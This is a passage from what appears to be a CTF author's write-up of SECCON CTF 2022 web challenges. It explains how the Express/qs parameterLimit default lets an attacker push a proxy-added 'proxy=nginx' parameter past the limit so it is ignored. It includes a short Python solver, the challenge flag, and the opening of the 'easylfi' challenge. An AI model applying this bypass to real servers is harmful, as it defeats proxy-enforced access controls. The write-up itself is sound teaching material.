 Option `parameterLimit` specifies the maximum number of query parameters and the default value is `1000`.

The parameter is used in:
```javascript
// from: https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L54-L55
var limit = options.parameterLimit === Infinity ? undefined : options.parameterLimit;
var parts = cleanStr.split(options.delimiter, limit);
```
As you can see, Express ignores parameters after a `parameterLimit`-th parameter.
Thus, if you send a request with more than 1000 query parameters, `proxy=nginx` is ignored.

### Solver

```python
import os
import httpx

BASE_URL = "http://skipinx.seccon.games:8080"

# ref. https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L21
PARAMETER_LIMIT = 1000

query = "proxy=something" + ("&"*(PARAMETER_LIMIT - 1))
res = httpx.get(f"{BASE_URL}/?{query}")
print(res.text)
```

### Flag

```
SECCON{sometimes_deFault_options_are_useful_to_bypa55}
```

## [web] easylfi

- 62 teams solved / 124 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/web/easylfi

Description:

> Can you read my secret?
>
> - `http://easylfi.seccon.games:3000`

### Overview

This is server-side challenge.

You access the server:
![](/images/2022/20221118-seccon-easylfi-01.png)

If you submit `test`, the server redirects to `/hello.html?%7Bname%7D=test`:
![](/images/2022/20221118-seccon-easylfi-02.png)


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.